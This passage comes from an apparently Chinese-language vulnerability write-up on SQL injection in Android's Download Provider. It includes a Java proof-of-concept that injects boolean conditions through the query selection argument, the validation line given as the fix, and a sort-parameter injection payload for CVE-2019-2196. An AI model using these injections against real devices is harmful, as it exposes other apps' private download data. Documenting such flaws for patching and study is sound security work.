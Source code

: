 ```
 
   private boolean isTrueCondition(int rowId, String sqlCondition) {
       ContentResolver res = getContentResolver();
       Uri uri = Uri.parse("content://downloads/public_downloads/0");
 
       Cursor cur = res.query(uri, new String[]{"_id"}, "_id=" + rowId + ") and (" +
               sqlCondition + ") or (1=1", null, null);
 
       try {
           return (cur != null && cur.getCount() > 0);
       } finally {
           if (cur != null)
               cur.close();
       }
   }
```  
  
  
  
预期效果显示（这里由于没找到合适案例，使用官方图片展示效果）：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GHY6YqkqNrVDDwnUD84eyjOgfHiaZ4YB1zrTgRUXI60TNiaNX0aju7X5eL3zlI02ulXVG4Aldnxgcg/640?wx_fmt=png "")  
####   
#### （3）安全防护  
```
如果它没有破坏任何功能，请考虑添加被删除的行：
@Override
public query(final Uri uri, String[] projection,
    final String selection, final String[] selectionArgs,
    final String sort) {
    Helpers.validateSelection(selection, sAppReadableColumnsSet);
```  
  
###   
### 2.Android Download Provider上的SQL注入——sort参数（CVE-2019-2196）  
#### （1）漏洞原理  
  
同样是针对Download Provider，因为被授予android.permission.INTERNET权限的恶意应用可以在query()方法的sort参数（ORDER BY子句）中附加一个包含子查询语句的LIMIT子句，实施SQL注入攻击，从而检索Download Provider内部数据库的所有条目。  
####   
#### （2）漏洞复现  
  
可以构造sql注入语句  
  
  
sort参数传入的值是ORDER BY子句后拼接的内容，为了利用此漏洞，可以在sort参数处构造：  
```
columnName
limit
case when (condition) then 1 else 0 end
例如：
_id limit case when(
    (select count(*) from downloads)>0
)
then 1 else 0 end
```  
  